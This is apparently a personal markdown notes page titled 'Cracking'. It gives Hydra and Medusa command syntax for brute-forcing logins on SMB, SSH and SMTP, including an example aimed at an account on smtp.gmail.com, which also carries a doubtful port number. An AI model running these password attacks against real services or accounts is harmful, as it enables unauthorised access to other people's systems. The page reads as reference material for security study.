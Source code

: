 ```yaml
---
layout: default
title: Cracking 
parent: security stuff
#has_children: true
nav_order: 2
---
```


1. TOC
{:toc}


## Hdyra
```bash
# basic syntax
hydra -l <username> -P <wordlist> <target> <service>

# attacking smb server
hydra -l john -P wordlist.txt smb://192.168.1.50

# attacking email server
hydra -l john@gmail.com -P wordlist.txt -S 565 smtp.gmail.com smtp
```

## Medusa
Medusa can be used against the following services: 
- FTP , HTTP, SSH, TELNET, SMTP, SMB, VNC

```bash
# basic syntax
medusa -h <target> -u <username> -P <wordlist> -M <module-name>

# attacking ssh server
medusa -h 192.168.1.50 -u john -P wordlist.txt -M ssh
```


---

## Resources and More
{: .no_toc }
### Links
{: .no_toc }
#### Reference
{: .no_toc }


